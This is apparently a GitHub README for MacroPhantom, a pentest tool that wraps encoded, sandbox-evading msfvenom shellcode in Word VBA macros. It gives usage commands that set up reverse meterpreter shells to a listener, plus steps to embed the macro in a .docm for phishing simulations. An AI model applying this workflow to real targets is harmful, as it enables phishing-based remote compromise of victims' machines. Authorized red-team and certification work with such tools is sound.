

# MacroPhantom

<p align="center">
  
  
  
  
</p>

<p align="center">
  <b>MacroPhantom</b> is an advanced VBA payload generator that creates encoded and obfuscated shellcode for Microsoft Office macros.
</p>

<p align="center">
  <a href="https://xbz0n.sh"></a>
</p>

---

## Overview

MacroPhantom automates the process of generating XOR+Caesar encrypted shellcode and embedding it into VBA macros for Microsoft Office documents. The tool streamlines the workflow for security professionals during penetration tests and security assessments, particularly for phishing simulations.

## Features

- **Self-contained** - All functionality consolidated in a single Python script
- **XOR and Caesar-based encoding** - Dual-layer shellcode encryption
- **Anti-sandbox techniques** - Sleep timer and other evasion methods
- **Cross-version compatibility** - Support for both modern and legacy Word
- **Customizable encoding** - Adjustable XOR and Caesar cipher keys
- **Metasploit integration** - Automatic handler generation

## Version Compatibility

| Word Version | Compatibility | Feature Support |
|--------------|---------------|-----------------|
| Word 2003-2007 | ✅ (legacy mode) | Basic evasion |
| Word 2010-2016 | ✅ | Full evasion, PtrSafe declarations |
| Word 2019-2021 | ✅ | Full evasion, PtrSafe declarations |
| Microsoft 365 | ✅ | Full evasion, PtrSafe declarations |

## Requirements

- Python 3.8 or higher
- Metasploit Framework
- Mono (for Linux/macOS users)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/MacroPhantom.git
cd MacroPhantom

# Ensure the script is executable
chmod +x MacroPhantom.py
```

## Usage

### Basic Usage

```bash
# Generate macros for modern Word versions (2010+)
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444
```

### Advanced Options

```bash
# Generate macros for legacy Word versions (2003-2007)
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --legacy

# Use custom encoding keys
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --xor-key 123 --add-key 5

# Use a different payload
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/meterpreter/reverse_tcp

# Specify an output directory
python3 MacroPhantom.py --LHOST 192.168.1.100 --LPORT 4444 --output-dir /path/to/output
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/meterpreter/reverse_https |
| `--xor-key` | XOR key value (0-255) | 250 (0xFA) |
| `--add-key` | Additive key value | 2 |
| `--legacy` | Generate macros for Word 2007 and earlier | False |
| `--output-dir` | Directory to save generated files | Current directory |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It uses a C# program to encrypt the shellcode with XOR and Caesar ciphers
3. The encrypted shellcode is embedded into a VBA macro template
4. The tool creates a Metasploit resource file for handling the connection

## Demo Output

After successful execution, you'll see output similar to this:

```
[*] Checking requirements...
[+] Python version: OK
[+] Metasploit Framework: OK
[+] Mono: OK
[*] Generating shellcode with msfvenom...
[+] Shellcode generated and saved to shellcode.txt
[*] Encoding shellcode...
[+] C# encoder created at Encoder.cs
[+] C# encoder compiled to Encoder.exe
[+] Shellcode encoded successfully
[*] Generating Word VBA macros...
[+] VBA macro code generated at macro_payload.txt
[*] Creating Metasploit handler script...
[+] Metasploit handler script created at handler.rc
[*] Run with: msfconsole -r handler.rc

[*] Word Compatibility: The generated macros are compatible with Word 2010-2021 and Microsoft 365

[+] All files generated successfully in .
[*] Next steps:
  1. Copy the VBA code from macro_payload.txt
  2. Open Microsoft Word, press Alt+F11 to open the VBA editor
  3. Insert a new module under 'Normal' project
  4. Paste the code and save as a macro-enabled document (.docm)
  5. Start the Metasploit handler with: msfconsole -r handler.rc
```

## Using the Generated Macro

1. Copy the VBA code from the generated macro file
2. Open Microsoft Word
3. Press Alt+F11 to open the VBA editor
4. Insert a new module under the 'Normal' project
5. Paste the code
6. Save as a macro-enabled document (.docm)
7. Start the Metasploit handler with: `msfconsole -r handler.rc`


<p align="center">
  
</p>


## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The macros generated may be detected by security software
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **Ivan Spiridonov (xbz0n)** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges
